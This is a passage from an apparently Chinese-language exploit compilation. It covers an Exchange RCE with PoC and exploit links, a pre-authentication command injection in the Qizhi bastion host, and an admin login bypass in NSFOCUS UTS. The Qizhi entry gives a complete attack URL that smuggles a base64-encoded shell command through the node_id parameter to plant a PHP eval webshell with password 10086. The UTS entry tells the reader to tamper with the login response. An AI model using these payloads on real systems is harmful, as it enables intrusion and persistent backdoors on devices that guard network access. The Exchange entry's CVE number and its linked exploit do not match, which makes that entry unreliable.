 *   **漏洞危害：**  
    攻击者可以以 SYSTEM 身份执行任意代码，并完全破坏目标 Exchange 服务器
    
*   **漏洞验证：**https://srcincite.io/pocs/cve-2020-16875.py.txt
    
*   **漏洞利用：**https://github.com/Ridter/cve-2020-0688
    

##### 9、齐治堡垒机前台 rce poc

奇治堡垒机存在前台命令执行漏洞，无需登录可直接进行利用

齐治运维堡垒机 V5.0

*   **漏洞描述：**
    

问题出现在 ha\_request.php 文件，第 37 行的 exec 函数，$url 为用户可控的变量，可见第 33 和 34 行。目光来到第 23 和 24 行，只要 node\_request 函数的返回值为 “OK”，即可跳过 fatal 函数（此函数为自定义函数，作用类似 PHP 内置的 exit 函数），继续往下执行。

Node\_request 函数的定义在 include/common.php 文件中，见下图。按照其原本的逻辑，其作用是请求 $url，并返回其内容。根据代码逻辑，$url = "http://$req\_ipaddr"."/listener/$method.php?n=$req\_node\_id&a=".urlencode(json\_encode($args));。所以 $url 变量值类似于 http://10.20.10.11/listener/cluster\_manage.php?n=1&a=\["install"\] 这样的字符串。

　　但是 $req\_ipaddr 和 $req\_node\_id 均来自用户输入。因此，假设 10.20.10.11 为黑客可控的服务器，listener/cluster\_manage.php 文件的内容为 “<?php echo ‘OK’;>”，即可使得 node\_request 函数返回 “OK”，从而跳过 fatal 函数，继续往下执行来到 exec 函数。

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5BUpAicG3zibMDvRvQJhFaWzsBreaznEtGRlukrM0JMzZeOeV8IL7AgIaE6HvpqmlA8w5CH011kR5Q/640?wx_fmt=png)

http://localhost/listener/cluster\_manage.php 返回 “OK”。  
第二，执行以下链接即可 getshell，执行成功后，生成 PHP 一句话马

/var/www/shterm/resources/qrcode/lbj77.php 密码 10086，使用 BASE64 进行编码。这里假设 localhost 为堡垒机的 IP 地址。

https://localhost/ha\_request.php?action=install&ipaddr=localhost&node\_id=1${IFS}|\`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash\`|${IFS}|echo${IFS}d|bash\`|${IFS}|echo${IFS}

特征：

漏洞利用点：

https://localhost/ha\_request.phpPoc 

形式：${IFS}|\`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash\`|${IFS}|echo${IFS}

##### 10、绿盟 UTS 综合威胁探针管理员任意登录

*   **漏洞详情：**  
    绿盟全流量威胁分析解决方案针对原始流量进行采集和监控，对流量信息进行深度还原、存储、查询和分析
    
*   **影响版本：**<= 设备版本 V2.0R00F02SP02
    

*   **漏洞利用：**  
    任意输入账号密码  
    ![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5BUpAicG3zibMDvRvQJhFaWzjW7Lcyk2iaoKg0GpgKsywxO0icnkwzvib5F8jT8iah3TUCZib5A8ia1nUFlA/640?wx_fmt=png)  
    抓包修改响应包为 true  
    ![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5BUpAicG3zibMDvRvQJhFaWzgMsxJS6kyyiaN6X7OHtjlbxvNecBlfM4OkpwjHdgRk6bMSPdo2o2bzA/640?wx_fmt=png)  
    返回重新登陆，替换原来的密码值，登陆成功  
    